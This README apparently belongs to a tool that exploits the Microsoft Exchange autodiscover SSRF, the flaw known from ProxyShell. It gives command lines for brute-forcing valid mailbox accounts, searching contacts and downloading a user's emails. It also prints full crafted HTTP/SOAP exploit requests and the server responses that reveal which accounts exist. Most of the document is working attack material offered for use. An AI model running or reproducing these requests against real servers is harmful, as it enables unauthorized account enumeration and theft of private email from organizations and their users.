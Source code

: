# Some Attacks of Exchange SSRF

# This project is heavily replicated in ProxyShell, NtlmRelayToEWS

## Brute Account 爆破可能存在的用户

file with emails 需要尝试的邮箱文件：

/tmp/emails.txt：

```
admin@exchange.com
test@exchange.com
jumbo@exchange.com
ceshi@exchange.com
support@exchange.com
```

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Brute --file /tmp/emails.txt
```

result 结果：

```
admin@exchange.com valid
support@exchange.com valid
```

![image-20210817172750895](README.assets/image-20210817172750895.png)



爆破用户的几个接口 一：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/ews/exchange.asmx HTTP/1.1
Host: mail.exchange.com
User-Agent: Python PSRP Client
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Cookie: Email=autodiscover/autodiscover.json?a=a@edu.edu
Content-Length: 776

<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" 
xmlns:m="http://schemas.microsoft.com/exchange/services/2006/messages" 
xmlns:t="http://schemas.microsoft.com/exchange/services/2006/types" 
xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
    <soap:Body>
        <m:GetFolder>
            <m:FolderShape>
                <t:BaseShape>Default</t:BaseShape>
            </m:FolderShape>
            <m:FolderIds>
                <t:DistinguishedFolderId Id="inbox">
                    <t:Mailbox>
                        <t:EmailAddress>admin@exchange.com</t:EmailAddress>
                    </t:Mailbox>
                </t:DistinguishedFolderId>
            </m:FolderIds>
        </m:GetFolder>
    </soap:Body>
</soap:Envelope>
```

用户存在会提示：

```
Access is denied. Check credentials and try again., 
```



爆破用户的几个接口 二：

```
POST /autodiscover/autodiscover.json?a=a@edu.edu/autodiscover/autodiscover.xml?=&Email=autodiscover/autodiscover.json?a=a@edu.edu HTTP/1.1
Host: mail.exchange.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36.
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 369

<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
        <Request>
          <EMailAddress>admssin@exchange.com</EMailAddress>
          <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
        </Request>
    </Autodiscover>
    
```

用户不存在会提示：

```
The email address can't be found.
```



## Search Contacts

run 运行程序：

```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Search --email validuser@exchange.com --keyword test
```

result 结果：

```
Board.Test@exchange.com
LTSTest@exchange.com
```

## Download user's emails

run 运行程序：
```
python Exchange_SSRF_Attacks.py --target mail.exchange.com --action Download --email userwantdown@exchange.com
```
result 结果：

```
[+] Item [output/item-0.eml] saved successfully
```



![image-20210818142426337](README.assets/image-20210818142426337.png)

![图片](README.assets/640.png)
